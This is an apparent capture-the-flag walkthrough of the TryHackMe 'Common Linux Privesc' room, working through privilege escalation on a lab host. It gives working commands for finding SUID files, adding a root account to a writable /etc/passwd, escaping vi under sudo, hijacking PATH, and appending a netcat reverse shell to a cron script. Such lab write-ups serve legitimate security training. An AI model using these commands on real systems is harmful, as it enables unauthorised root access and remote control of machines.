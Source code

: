 # Common Linux Privesc

**Room Link:** [https://tryhackme.com/room/commonlinuxprivesc](https://tryhackme.com/room/commonlinuxprivesc)



## Enumeration



Download LinEnum Script

**Kali**

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Login to host

**Kali**

```
ssh user3@$VICTIM
Password: password
```

The target's hostname

<figure><img src="../../.gitbook/assets/image (1) (11).png" alt=""><figcaption></figcaption></figure>

There are 8 users

<figure><img src="../../.gitbook/assets/image (2) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

4 shells

<figure><img src="../../.gitbook/assets/image (5) (3) (2).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

Some users can write to passwd file

<figure><img src="../../.gitbook/assets/image (4) (9).png" alt=""><figcaption></figcaption></figure>

## Abusing SUID/GUID Files

**Victim**

```
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Running the shell script in user3 home directory gives us root access right away.

**Victim**

```
/home/user3/shell
```

<figure><img src="../../.gitbook/assets/image (4) (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Exploiting Writeable /etc/passwd

**Victim**

```
su user7
Password: password
```

**Victim**

```
openssl passwd -1 -salt new 123
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (6) (3) (3).png" alt=""><figcaption></figcaption></figure>

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (1) (7).png" alt=""><figcaption></figcaption></figure>

## Escaping Vi Editor

**Victim**

```
su user8
Password: password
```

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (3) (1) (6) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo vi
:!sh
whoami
```

<figure><img src="../../.gitbook/assets/image (5) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Exploiting Crontab

**Victim**

```
ssh user4@$VICTIM
Password: password
```

**Kali**

```
msfvenom -p cmd/unix/reverse_netcat lhost=$KALI lport=8888 R
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 8888
```

**Victim**

```
cat /etc/crontab 
```

<figure><img src="../../.gitbook/assets/image (11) (1) (4).png" alt=""><figcaption></figcaption></figure>

Add our payload we made in Kali to the script

**Victim**

```
echo 'mkfifo /tmp/cibykaz; nc 10.10.185.2 8888 0</tmp/cibykaz | /bin/sh >/tmp/cibykaz 2>&1; rm /tmp/cibykaz' >> /home/user4/Desktop/autoscript.sh
```

Wait for the script to run and catch the shell on Kali.

<figure><img src="../../.gitbook/assets/image (3) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Exploiting PATH Variable

**Victim**

```
su user5
Password: password
```

The script in user5 home directory is just doing the command ls.

**Victim**

```
cd /home/user5
./script
```

<figure><img src="../../.gitbook/assets/image (2) (6) (2).png" alt=""><figcaption></figcaption></figure>

We now create a script called ls that gives us a bash shell.

**Victim**

```
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
```

Before we change the path we can see ls goes to /bin/ls

![](<../../.gitbook/assets/image (8) (7).png>)

Now after running the below command ls is now directed to our script.

**Victim**

```
export PATH=/tmp:$PATH
```

<figure><img src="../../.gitbook/assets/image (14) (3) (1).png" alt=""><figcaption></figcaption></figure>

Now the script in user5s directory acts differently, we now have a root shell.

**Victim**

```
cd /home/user5
/script 
```

<figure><img src="../../.gitbook/assets/image (18) (3) (2).png" alt=""><figcaption></figcaption></figure>

Run the following to reset the path variable.

**Victim**

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
```

